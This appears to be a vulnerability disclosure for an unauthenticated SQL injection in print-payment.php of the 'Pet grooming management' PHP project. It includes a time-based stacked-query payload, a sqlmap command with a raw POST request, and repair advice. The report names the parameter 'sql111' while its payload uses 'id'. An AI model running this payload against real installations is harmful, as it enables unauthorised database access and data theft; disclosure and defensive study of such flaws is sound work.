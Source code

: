 # Pet grooming management print-payment.php  v.1.0 Unauthorized sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print-payment.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql111" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical Unauthorized SQL injection vulnerability in the "print-payment.php" file. This vulnerability stems from insufficient user input validation of the 'sql111' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- stacked queries

## Vulnerability location:

- "sql111" parameter

## Payload:

```
Parameter: #1* ((custom) POST)                                        
    Type: stacked queries                                             
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#
```

![image-20250917173114.png](./assets/image-20250917173114.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /admin/print-payment.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

id=-1*
```

# Attack results

![image-20250917173323.png](./assets/image-20250917173323.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
